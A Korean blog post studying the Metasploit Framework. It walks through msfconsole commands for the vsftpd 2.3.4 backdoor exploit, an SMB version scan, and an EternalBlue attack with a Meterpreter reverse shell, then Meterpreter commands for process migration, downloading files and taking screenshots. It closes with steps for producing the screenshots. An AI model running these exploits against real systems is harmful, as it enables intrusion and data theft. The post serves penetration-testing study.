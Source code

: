 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
   ![MetasploitVsftpd](/assets/images/Meta_1.png)

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
   ![MetasploitSmb](/assets/images/Meta_2.png)

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집 · 프로세스 제어 · 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

   ![MetasploitSession](/assets/images/Meta_3.png)

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Metasploit vsftpd 공격 성공 이미지 제작**

1.  (준비) 공격 대상 서버에 취약한 버전의 `vsftpd 2.3.4`를 설치하고 실행시켜 둡니다.
2.  공격자 PC에서 `msfconsole`을 실행합니다.
3.  위 `4. 사용 예시` 섹션에 있는 2번부터 6번까지의 명령어를 순서대로 `msfconsole`에 입력하고 실행합니다.
4.  마지막 `exploit` 명령이 성공하면, `Command shell session 1 opened` 라는 메시지와 함께 대상 서버의 쉘 프롬프트가 나타납니다.
5.  획득한 쉘에서 `whoami` 명령어를 입력하여 `root`가 출력되는 것을 보여줍니다.
6.  `msfconsole` 시작부터 `whoami` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 모두 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여줍니다.
    *   **선택:** `use exploit/unix/ftp/vsftpd_234_backdoor` 명령어 부분
    *   **설정:** `set RHOSTS 192.9.200.11` 명령어 부분
    *   **결과:** `Command shell session 1 opened` 메시지와 `whoami` 결과인 `root` 부분
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (SMB 스캔 결과)**

1.  (준비) `msfconsole`의 새 창을 열거나, 이전 세션에서 `back` 명령어로 초기 상태로 돌아옵니다.
2.  위 `5. 사용 예시 2`의 `search`부터 `run`까지의 명령어를 순서대로 입력합니다.
3.  `run` 명령이 성공하면 `Host is running ... (Samba ...)` 와 같이 대상 서버의 OS와 Samba 버전 정보가 포함된 결과가 출력됩니다.
4.  이 과정이 모두 포함된 터미널 화면을 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 `use auxiliary/...` 명령어와, 결과로 출력된 `Host is running...` 라인 전체에 하이라이트를 적용하여 저장합니다.

#### **이미지 3 제작 (Meterpreter 세션 획득 및 활용)**

1.  (준비) 공격 대상이 될 취약한 윈도우 가상머신(예: Metasploitable 3)을 준비한다.
2.  `msfconsole`에서 위 `6. 사용 예시 3`의 1단계 명령어를 순서대로 입력하여 공격을 실행한다.
3.  `exploit` 명령이 성공하면, `meterpreter session 1 opened` 메시지와 함께 `meterpreter >` 프롬프트가 나타난다.
4.  획득한 Meterpreter 세션에서 `sysinfo`와 `getuid` 명령어를 차례로 실행하여 시스템 정보와 `NT AUTHORITY\SYSTEM` 권한을 확인한다.
5.  `ps` 명령어를 실행하여 프로세스 목록이 출력되는 것을 보여준다.
6.  `msfconsole` 시작부터 `ps` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍는다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여준다.
    *   **설정:** `set RHOSTS`, `set LHOST` 등 옵션 설정 부분
    *   **세션 획득:** `meterpreter session 1 opened` 메시지 부분
    *   **명령 실행:** `sysinfo`, `getuid`, `ps` 명령어와 그 결과 부분
9.  수정된 이미지를 저장하여 게시글에 삽입한다.